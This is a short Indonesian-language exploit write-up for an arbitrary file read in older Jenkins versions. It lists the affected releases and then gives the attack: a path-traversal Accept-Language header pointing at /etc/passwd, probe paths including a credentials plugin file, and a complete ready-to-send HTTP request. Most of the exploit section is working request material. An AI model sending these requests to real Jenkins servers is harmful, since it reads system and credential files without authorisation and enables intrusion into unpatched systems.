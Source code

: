 <languages   />

Versi yang terpengaruh
----------------------

Jenkins weekly 2.132 dan versi sebelumnya Jenkins LTS 2.121.1 dan versi sebelumnya

Itu dapat membaca file apa pun di server sistem Windows, dan dalam kondisi tertentu, itu juga dapat membaca file di server sistem Linux.

Eksploitasi
-----------

Anda harus mengaktifkan izin baca pengguna anonim, tambahkan di header permintaan:

    Accept-Language: /../../../../../../../../etc/passwd

Untuk memproses jalur penyertaan dalam permintaan, seperti /plugin/xxxx, Anda dapat mencoba:

    /plugin/jquery-detached/.xml
    /plugin/jquery-detached/.key
    /plugin/credentials/.ini

Windows:

    GET /plugin/credentials/.ini HTTP/1.1
    Host: x.x.x.x:8080
    Accept: text/javascript, text/html, application/xml, text/xml, */*
    X-Prototype-Version: 1.7
    DNT: 1
    X-Requested-With: XMLHttpRequest
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.106 Safari/537.36
    Origin: http://x.x.x.x:8080
    Referer: http://x.x.x.x:8080/
    Accept-Encoding: gzip, deflate
    Accept-Language: /../../../../../../../../etc/passwd
    Cookie: JSESSIONID.450017e3=x6kdpnkcgllh18wvlaohsqq8z; screenResolution=1920x1080; JSESSIONID.ccf0cd96=node09crp5bs5eglyrv874no3w48l0.node0; JSESSIONID.6551b177=14vcq2nsop6bw1u8urepj65kwv; td_cookie=1608956971
    Connection: close